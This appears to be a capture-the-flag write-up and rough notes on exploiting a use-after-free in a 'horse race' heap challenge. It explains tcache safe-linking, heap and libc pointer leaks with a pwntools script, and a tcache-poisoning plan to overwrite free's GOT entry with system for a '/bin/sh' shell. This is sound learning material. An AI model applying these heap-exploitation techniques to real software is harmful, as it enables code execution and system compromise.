

Looks like we got the first chunk to point to something else! But wait a minute... GDB reports that the address of this chunk is `0xdeadbee0d3` when we overwrote **fd** with `0xdeadbeef00`, what happened here??? It turns out that tcache bins and safe bins have a feature called safe linking to add an extra layer of security to the pointers! When we store a pointer in **fd** we actually store a mangled version of this pointer. What happens is we take the address that the pointer is stored at, shift it to the right by 12 bits, and xor it with the actual pointer and use that instead. Likewise we do the same thing to get the actual address.

```
newPointer = (&actualPointer >> 12) ^ actualPointer
actualPointer = (&newPointer >> 12) ^ newPointer
```

The address of the pointer we overwrote was `0xfd36c0`, the weird pointer we got was `0xdeadbee0d3`

```(0xfd36c0 >> 12) ^ 0xdeadbeef00 == 0xdeadbee0d3```

Which is why libc thought we were referring to this weird address the entire time. Pretty cool! Right? Unfortunately this makes our lives a bit harder as we have to get the address of the pointer we are changing or we can't specify the right address to write to. Therefore, in order to gain arbitrary write we must also leak a heap address.

#### Leaking Heap Addresses
When we free and allocate chunks of the same size, we will likely get the former free chunks and all the juicy metadata they contain. If we don't write anything to these chunks when we allocate them, and later print out the contents of these chunks, we will get some **fd** pointers which point into heap. Of course, because of safe linking these pointers have been mangled and won't be very useful, but keep in mind that the last chunk in tcache bin has its **fd** pointer set to NULL, and when we mangle that we get the value used to xor the pointers with!

```(heapAddress >> 12) ^ 0 = heapAddress >> 12```

If this value is leaked, we can "sign" our fake pointers and make them accurately point to addresses we want to write to (Even though this is only the address of the chunk containing the NULL pointer, shifting it the right preserves only its most significant bits which the other chunk addresses should share). 

To leak pointers we'll add some horses and remove some horses to put some chunks on tcache bin. Afterwards we add more horses to claim those chunks that were originally in tcache. If we enter "\xff" for our horse name we avoid having to write over the pointers these chunks have and they will be printed out as the horse names when the horses race! We'll look for the smallest value because that will be the one that is xored with the NULL pointer. Then we can make our malicious pointer.


When allocating from the tcache bins, we allocate from the head, or the most recently freed chunk. After allocating from this chunk, libc will save the **fd** 

In race there is function I name checkForEnd that lookas at one of the numbers set in initheap
and sees if one is above 0x1d so I think its not actually stableIndex but position of horse

Function called later adds a number between 0-4 to horse position for every horse


Looking at gdb I look at heap to see what happens when add hors

Usefule info???

```
Redefine command "hook-stop"? (y or n) y
Type commands for definition of "hook-stop".
End with a line saying just "end".
>x/80wx 0x405290
>x/40wx 0x004055b0 - 0x10
>end
(gdb) info breakpoints 
Num     Type           Disp Enb Address            What
1       breakpoint     keep y   0x0000000000401c65 
	breakpoint already hit 2 times
(gdb) 
```

Oppsie daisy looks like I forgot to look at remove horse function silly me :P
It turns out it frees the name pointer associated with the horse, but it does not get rid
of the pointer, so it is still in memory. This pointer can be accessed by headStart() because
it does not check if use bit is set before writing to address (hence why headStart on non-initialized
horse causes segfault because it is trying to write to NULL) Use after freee????

Doing some heap work I was going to give up until I looked a bit at a video by sloppyJoePirates and an azeria-labs
guide on heap exploitation. I still don't know if I'll be able to solve this but I do wanna explore a bit more.

Video points out as I failed to realize that writing \0xff to setHorseName or whatever function it is stops it from
reading anymore because it stops writing when char is -1 (255 = 0xff) for some weird reason. Basically you can make
horse which allocates a chunk, don't write anything to name, free horse, and make a new horse which will put it on the
same freed chunk. User data will have forward and backward pointers as long as you don't write anything when the game
asks for horse name (0xff) so when you race the game will leak these pointers.

Using GEF 


From other writeups I learned that the fd pointers for heap chunks use something called safe linking which just means
that the fd pointer is mangled up a bit. What happens is you take the address of the fd pointer, shift it the the right
by 12 bits (you lose data), and xor it with the fd pointer. This makes it harder to do stuff even after leaking data because
you don't know where the fd pointer is pointing without the address of the fd pointer. However, this also means that theres
a way to leak the address of one special fd pointer, specifically tcache end of linked list. This pointer will be NULL, so
what happens is address >> 12 is xored with zero so the value stored here (which we can read) is just the address shifted
right by 12, precisely the value we need to forge a valid fd! Therefore if we can get target tcache chunk to be last at
linked list (this is done by having it added to tcache bin first), we can "sign" valid file pointers and pwn!!! I think you
can also use this to get address of code to pwn

Operation so far:
Allocate horses x12 (0-11)
HHHHHHHHHHHH
Free horses starting from end remove horses (11-0)
HHHHHHHHHHH<
HHHHHHHHHH<
HHHHHHHHH<
HHHHHHHH<
HHHHHHH<
HHHHHH<
HHHHH<
These go into tcache bin rest end up becoming unsorted
UUUUU		(unsorted chunks)
TTTTTT**T**		(tcache bold one should leak because it was free()ed first)

So basically horse 11 should have cheat go into it?

I've written some code that gets leaked addresses here is output

As you can see, 12 horses were initialized, but only 8 values were returned, this is because some of the horses were in
the large unsorted chunk, and some of the data areas are set to zero. The code ignores zeros, so this is all that is output.
Code looks like this

```python
def getPointers():
	p.sendlineafter("Choice: ", b"3")
	data = b""
	x = p.recvline()
	data += x
	while (not (b"WINNER" in x)):
		x = p.recvline()
		data += x
		if (b"\n\n" in data):
			print("done recieving data!")
			break
	somePointers = data.split(b"|")
	leakedPointers = []
	
	print(data)
	for pointer in somePointers:
		pointer = pointer.strip(b" \n")
		pointer = pointer.ljust(8, b"\x00")
		pointer = pwn.u64(pointer)
		if (pointer != 0):
			leakedPointers.append(pointer)
			print(hex(pointer))
	
	print(leakedPointers)
```

Sorry for very messy
From the output, everything below the large value containing 0x7fcaa4357040 is part of what was unsorted bin
Of course horse containing this addr should be 8th horse allocated (because it gets allocated after all the
tcache bins are allocated, so this is the orse in stable 7) Likewise horse containing forgable value is horse
6 because it goes into the tcache bin that was last freed.

Wait heap addresses are very large and what we get are heap shifted right 12 bits so almost all other pointers should
be heap shifted right 12 bits too so that means we can use the value thats leaked to decode addresses of all fd pointers
that are leaked!!! (and sign too)

Ok what??? So there are two values that get leaked that are one off to each other, one can be used to sign/decode tcache addresses
but the heap base address is different so it doesn't work for unsorted which means no libc :( but everytime I check gdb the key
for unsorted is alyways the latter of the two values thats one off, and its from a chunk in the middle of unsorted. Whaaat?
What does this mean

Ok it turns out pointer mangling happens on Tcache chunks but they do not happen on unsorted chunks so those are free to
exploit, I was trying to unmangle unsorted chunk FD pointers the entire time when that wasn't neccessary, which resulted in
wrong guesses for libc base. When I realized this, I started getting being able to correctly find libc base addr based on 
these leaks, now can do tcache poison and pwn!!!

First find address to override in GOT. We can choose any function that will be called later, we can change this function address
to that of libc sys and pass it a pointer to a string "/bin/sh", if we use free we can do just that, so lets overwrite free
to sys call and name a horse "/bin/sh" to pass it to.



Free is at 0x404018 but we need to align addresses by 0x10 so we need to alloc 8 bits below free at 0x404010. What we can do
is free two horses which will place two chunks into tcache bin. Bin -> T1 -> T2, We can modify T1 next pointer, normally
it will point to T2, but we can set it to point to 0x404010 (also note that value at 0x404010 is 0x0000000000000000 so it will
appear as end of chain). Afterwards we can allocate a chunk of same size as bin size which will allocate a bin at where
T1 points, giving us the ability to write to 0x404010. 


